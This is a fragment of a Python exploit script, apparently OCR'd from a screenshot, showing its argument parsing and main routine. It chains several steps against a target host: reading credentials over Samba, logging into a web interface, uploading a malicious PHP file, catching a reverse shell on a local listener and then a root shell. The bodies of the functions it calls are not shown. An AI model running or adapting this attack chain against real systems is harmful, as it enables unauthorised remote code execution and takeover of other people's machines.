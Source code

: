 ```py
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Get the password for the web interface
    SambaRead(rhost)
    # Login in it
    LoginWeb(rhost,creds)
    # Set Up the First Handler
    thr = Thread(target=FirstHandler,args=(int(lport),lhost,))
    thr.start()
    # Upload Malicious php
    SambaUpload(rhost)
    # Get RCE
    getReverse(lhost,lport)
    # Set Up the  Root Handler
    lport = int(lport) + 1
    RootHandler(lport)
    
if __name__ == '__main__':
    main()
```